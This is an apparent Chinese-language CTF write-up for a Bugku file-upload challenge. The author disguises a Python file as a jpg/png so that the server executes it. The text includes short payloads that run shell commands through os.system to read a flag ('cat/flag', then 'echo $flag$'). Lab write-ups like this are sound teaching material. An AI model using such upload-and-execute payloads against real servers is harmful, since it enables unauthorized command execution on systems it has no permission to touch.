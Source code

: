 ### bugku_file_upload

首先查看页面源代码，可以看见上传文件类型仅支持 jpg 和 png，而且可以知道是将文件按python解析执行的

![image.png](https://i.loli.net/2021/07/12/WUvwIiKxDBMLuyE.png)

在python中，system函数可以将字符串转换成命令在服务器上运行，一般在os.system上面封装运行

新建txt文件，内容输入

``` 
import os
os.system('cat/flag')
```

将文件后缀改为jpg或者png

上传之后不知道为什么报错了。。。修改文件内容：

```
import os
os.system('echo $flag$')
```

![image.png](https://i.loli.net/2021/07/12/NjQT1GX8quSYVk7.png)